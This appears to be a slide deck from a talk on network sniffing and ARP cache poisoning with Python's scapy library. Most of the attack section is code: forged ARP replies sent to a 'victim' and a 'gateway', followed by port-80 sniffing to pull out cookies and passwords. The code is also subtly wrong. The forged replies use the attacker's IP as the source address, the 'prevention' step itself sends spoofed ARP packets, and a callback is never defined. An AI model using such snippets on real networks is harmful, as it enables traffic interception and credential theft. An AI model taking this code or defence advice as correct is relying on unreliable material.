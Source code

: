 class: center, middle

# hydpy.saurabhn.com

---

class: center, middle

# You can find me @EXTREMOPHILARUM

---
class: center, middle

# Sniffing your way through the network

---

# Here's the Agenda

1. What?
2. Why?
3. How to do it?
4. How can you be safe?

---
# What?

.center[![Trojan](https://www.greycampus.com/hubfs/Imported_Blog_Media/What%20is%20a%20Sniffing%20attack%20and%20How%20can%20you%20defend%20it.jpg)]

---
class: center, middle
# Why?

.center[![Trojan]()]

---
# ARP packets
- ARP packets are used to map IP addresses to MAC addresses
- There are two types of ARP packets
    - ARP request
    - ARP reply
- ARP request is used to find the MAC address of a host on the network
- ARP reply is used to reply to the ARP request

---
# ARP cache
- ARP cache is a table that stores the mapping of IP addresses to MAC addresses
---
# ARP cache poisoning
ARP poisoning is a technique used to intercept traffic between two hosts on the network. This is done by sending fake ARP replies to the hosts. The hosts will then start sending traffic to the attacker instead of the intended host.
---
class: center, middle

# Prerequisites
```bash
pip3 install scapy
```
---
# Step 1: Lets Sniff the default interface

```python
# sniff with default interface
from scapy.all import *
sniff(filter="port 80", prn=process_packet, store=False)
```

---
# How to perform ARP cache poisoning
- We will be using scapy to perform the same
- Scapy is a python library that allows us to send and receive packets
- We will be using the following code to perform the same
```python
from scapy.all import *
# send an ARP reply to the victim
send(ARP(op=2, pdst="victim_ip", hwdst="victim_mac", psrc="attacker_ip"))
# send an ARP reply to the gateway
send(ARP(op=2, pdst="gateway_ip", hwdst="gateway_mac", psrc="attacker_ip"))
```
- The above code will send an ARP reply to the victim and the gateway
- The victim will then start sending traffic to the attacker
- Similarly, the gateway will also start sending traffic to the attacker
- we can then sniff the traffic using the following code
```python
sniff(filter="port 80", prn=process_packet, store=False)
```
- The above code will sniff all the traffic on port 80
- We can then perform operations on the traffic
- Like, we can print the traffic to the console
- or can extract the data from the traffic like cookies, passwords, etc

---
# How to prevent ARP cache poisoning
- We can prevent ARP cache poisoning by monitoring the ARP cache and ARP traffic on the network.
- We can use the following code to monitor the ARP cache
```python
from scapy.all import *
# sniff for ARP packets
sniff(filter="arp", prn=process_packet, store=False)
```
- The above code will sniff all the ARP packets on the network
- We can then check if the ARP cache is poisoned or not
- As we know, ARP cache poisoning is done by sending fake ARP replies
- So, we can check if the ARP cache is poisoned by checking if the ARP cache has the IP address of the attacker
- If the ARP cache has the IP address of the attacker, then the ARP cache is poisoned
- We can then send an ARP reply to the victim and the gateway to remove the attacker from the ARP cache
- by using the following code
```python
from scapy.all import *
# send an ARP reply to the victim
send(ARP(op=2, pdst="victim_ip", hwdst="victim_mac", psrc="gateway_ip"))
# send an ARP reply to the gateway
send(ARP(op=2, pdst="gateway_ip", hwdst="gateway_mac", psrc="victim_ip"))
```
---
# Conclusion
- We have seen how to perform ARP cache poisoning
- We have also seen how to prevent ARP cache poisoning
- We now know how to sniff traffic on the network
- We can now perform operations on the traffic

---
class: center, middle

# Any questions?
